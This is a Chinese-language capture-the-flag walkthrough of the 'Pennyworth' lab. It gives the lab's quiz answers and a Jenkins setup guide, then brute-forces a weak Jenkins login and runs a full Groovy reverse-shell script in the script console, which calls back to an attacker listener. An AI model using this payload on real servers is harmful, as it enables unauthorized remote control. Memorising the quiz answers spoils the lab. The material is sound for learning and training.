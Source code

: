 <center>Pennyworth</center>





[toc]







## Pennyworth

> Pennyworth







### 1. task

1. What does the acronym CVE stand for?

```shell
Common Vulnerabilities and Exposures
```

2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

```shell
Confidentiality, Integrity, Availability
```

3. What is the version of the service running on port 8080?

````shell
Jetty 9.4.39.v20210325
````

4. What version of Jenkins is running on the target?

```shell
2.289.1
```

5. What type of script is accepted as input on the Jenkins Script Console?

```shell
Groovy
```

6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

```shell
cmd.exe
```

7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

```shell
ifconfig
```

8. What switch should we use with netcat for it to use UDP transport mode?

```shell
-u
```

9. What is the term used to describe making a target host initiate a connection back to the attacker host?

```shell
reverse shell
```





### 2. Jenkins

> Jenkins 是一个开源的持续集成/持续部署（CI/CD）工具： [官网](https://www.jenkins.io/zh/)

```shell
自动化构建
自动化测试
自动化部署
丰富的插件生态
支持分布式构建
```

````shell
1. 服务端搭建


#### Ubuntu/Debian 安装
```bash
# 添加 Jenkins 源
curl -fsSL https://pkg.jenkins.io/debian-stable/jenkins.io.key | sudo tee \
  /usr/share/keyrings/jenkins-keyring.asc > /dev/null

echo deb [signed-by=/usr/share/keyrings/jenkins-keyring.asc] \
  https://pkg.jenkins.io/debian-stable binary/ | sudo tee \
  /etc/apt/sources.list.d/jenkins.list > /dev/null

# 安装 Jenkins
sudo apt update
sudo apt install jenkins

# 启动服务
sudo systemctl start jenkins
sudo systemctl enable jenkins
```


#### Docker 安装（推荐）
```bash
# 创建 Jenkins 数据目录
mkdir -p /data/jenkins_home
chown -R 1000:1000 /data/jenkins_home

# 运行 Jenkins 容器
docker run -d \
  --name jenkins \
  -p 8080:8080 \
  -p 50000:50000 \
  -v /data/jenkins_home:/var/jenkins_home \
  jenkins/jenkins:lts
```


### 3. 初始配置

#### 获取初始密码
```bash
# Docker 安装
docker logs jenkins

# 系统安装
sudo cat /var/lib/jenkins/secrets/initialAdminPassword
```


#### Jenkins 配置文件
```xml:/var/lib/jenkins/config.xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson>
  <disabledAdministrativeMonitors/>
  <version>2.346.1</version>
  <numExecutors>2</numExecutors>
  <mode>NORMAL</mode>
  <useSecurity>true</useSecurity>
  <authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
  </authorizationStrategy>
  ...
</hudson>
```


### 4. 安装必要插件

```groovy
// 推荐安装的插件
- Git plugin
- Pipeline
- Docker Pipeline
- Blue Ocean
- Credentials Plugin
- SSH Build Agents
- Workspace Cleanup
```

````









### 3. flag

> 获取flag

```shell
nmap -sC -sV IP
```

![image-20241202155618773](./assets/image-20241202155618773.png)

> 访问8080端口。
>
> 登陆接口没做任何防御。 进行爆破

```shell
账号密码：root/password
```

> **`访问 :8080/script，利用Groovy命令获取反弹shell`**

> **在Jenkins脚本控制台中，可以编写和运行Groovy脚本，尝试在Jenkins控制台插入反弹shell脚本。**

```shell
# 在攻击机执行监听
ncat -nvlp 1234

访问target_ip:8080/script，在Jenkins控制台插入Groovy脚本，点击run运行
```

```groovy
//脚本
String host="host_ip";
int port=监听端口;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

> 获取到`shell`

![image-20241202160005838](./assets/image-20241202160005838.png)